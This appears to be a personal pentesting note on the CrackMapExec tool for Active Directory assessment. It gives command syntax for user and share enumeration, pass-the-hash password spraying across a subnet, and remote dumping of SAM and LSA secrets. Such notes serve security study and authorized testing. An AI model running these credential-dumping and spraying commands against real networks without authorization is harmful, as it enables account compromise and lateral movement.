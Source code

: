 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
A post-exploitation tool for assessing the security of *large Active Directory networks*. CME supports a number of protocols: [[MSSQL]], [[SMB & RPC]], [[SSH]], [[WinRM]] etc (can be listed in the help section of the CLI). With this tool we can also brute force user credentials with dictionary attacks. Once we have access we can use a tool like [[Evil-Winrm]] to efficiently communicate with the winrm service.

> A community open-source version is [NetExec](https://github.com/Pennyw0rth/NetExec) which is based on the original CME by its original contributors
> https://www.netexec.wiki/
## Installation
```
sudo apt-get -y install crackmapexec
```

## Documentation
**Cheatsheet:** 
**Website:** https://web.archive.org/web/20231116172005/https://www.crackmapexec.wiki/
## Usage
```bash
crackmapexec <proto> <target-ip> -u <user or userlist> -p <pass or passlist> -d .
```

### User Enumeration
We can enumerate a host for users. By targeting a Domain Controller and using credentials from a user, we can enumerate all domain users.
```bash
crackmapexec smb [ip] -u [user] -p [pass] --users
```

### Group Enumeration
We can also obtain the groups on a host/domain similarly to above.
```bash
crackmapexec smb [ip] -u [user] -p [pass] --groups
```

### Currently logged on users
We can assert which users are currently logged in on a server
```shell
crackmapexec smb [ip] -u [user] -p [pass] --loggedon-users
```

### List SMB Shares
```bash
crackmapexec smb [ip] -u [user] -p [pass] --shares
```

### Crawl a SMB share
This allows us to use the `spider_plus` module to crawl a share and save the results to `/tmp/cme_spider_plus/<ip>`. We can then comb through the json results and identify any files we might want to look further at (eg. ones that could contain credentials).
```bash
crackmapexec smb [ip] -u [user] -p [pass] -M spider_plus --share '[shareName]'
```

### Password Spraying a domain using Pass-the-Hash
We can perform a password spraying attack on a set of targets to see if we are able to login to any host on a subnet. 
```bash
crackmapexec smb [target(s)] -u [user] -d . -H [hash]

# Try credentials against local administrator password on each host
crackmapexec smb 10.129.201.0/24 -u Administrator -d . -H [administrator_hash] --local-auth
```
The `--local-auth` can also be added if we want to attempt to login via local credentials on the host (eg. the local administrator password). 
> If we discover systems all using the same administrator password, we could recommend the use of the [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) which randomises the local admin password and can also rotate it on fixed intervals.

The `-x` flag can be used to execute a command too

### Extracting Hashes from SAM Database
**Remote dumping** of the LSA secrets & SAM databases can also be done via tools like `crackmapexec` using a local administrator account:
```bash
$ crackmapexec smb [ip] --local-auth -u [user] -p [pass] --lsa

$ crackmapexec smb [ip] --local-auth -u [user] -p [pass] --sam
```

### Locating old GPP Passwords
GPP was patched in 2014 but some systems may still have old files lying around
```bash
crackmapexec smb [ip] -u [user] -p [pass] -M gpp_autologin
```
